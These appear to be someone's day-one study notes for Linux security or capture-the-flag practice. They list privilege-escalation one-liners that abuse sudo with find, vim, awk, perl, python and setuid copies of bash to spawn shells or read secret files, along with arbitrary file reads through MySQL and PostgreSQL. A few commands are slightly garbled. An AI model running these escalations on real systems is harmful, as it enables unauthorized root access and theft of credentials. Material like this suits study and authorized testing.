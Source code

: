 
## Day 1
#### find /dir -type f-name name -exec grep -H '^keyword' {} \;

### Decompressing files
#### tar -xjf file.tbz
#### tar -xzf file.tgz
#### bunzip2 file.bz2

### Encrypting and Decrypting files with openssl
https://robertheaton.com/2013/07/29/padding-oracle-attack/
#### openssl enc -d -aes256 -k KEY -in enc.tgz.enc -out out.tgz

#### Data stays longer in /var/tmp then /tmp dir

### Cronjobs
Never leave credentials in cron jobs.

<!-- $1 = md5crypt $5 = sha256 $6 = sha512 -->
### See services runing in a system
#### ps -edf

### Intresting Directory
#### /var/lib/mysql/mysql

### Read arbitary file when logged in as mysql using load_file() function
#### SELECT LOAD_FILE('/var/lib/password.txt');

### Postgresql 
#### psql 

| List Database | Connect To Database | List Tables | Read Data from Tables | Create Table |
| ---|---| --- | --- | --- |
| \list | \c database_name | \d | SELECT * FROM table_name; | CREATE TABLE tname(column data); |

| Copy Arbitary File to Table | DELETE TABLE |
| --- | --- |
| COPY tname '/etc/passwd'; | DROP TABLE tname; |

### Sqlite 
Poratble Database
|List Tables| Read Data From Table |
|---| -- |
|.tables| SELECT * FROM tablename;|

### Privilege Escalation abusing find command
##### sudo -u user find /etc -name passwd -type f -exec bash \;
##### sudo -u user find /usr/bin -name password.txt -type f -exec cat {} \;

### Privilege Escalation abusing vim
##### sudo -u user vim -c ':!/bin/sh'

### Privilege Escalation abusing awk
##### sudo -u user awk 'BEGIN {system("/bin/bash")}'
##### sudo -u user awk {'print $1'} ~/flag.txt

### Privilege Escalation abusing perl
#### sudo -u user perl -e 'exec "/bin/sh";'
#### sudo -u user perl -e 'print `cat flag.txt`'

### Privilege Escalation abusing perl
#### sudo -u user python -c 'import os; os.system("/bin/sh")'
#### sudo -u python
###### import os
###### os.system('cat flag.txt')

### Privilege Escalation with cp and chmod
#### Copy the /bin/bash to /tmp/test
#### chmod +xs /tmp/test && ./test
#### $test
#### Create following file hello :
int main (void)
{
system("cat /home/victim/key.txt");
}

#### sudo -u user cp hello /tmp/test
#### sudo -u user chmod +xs /tmp/test && ./test
### Create wordlist for testing opensource projects
#### find | sed 's/\.//g' > ffufwordlist.txt

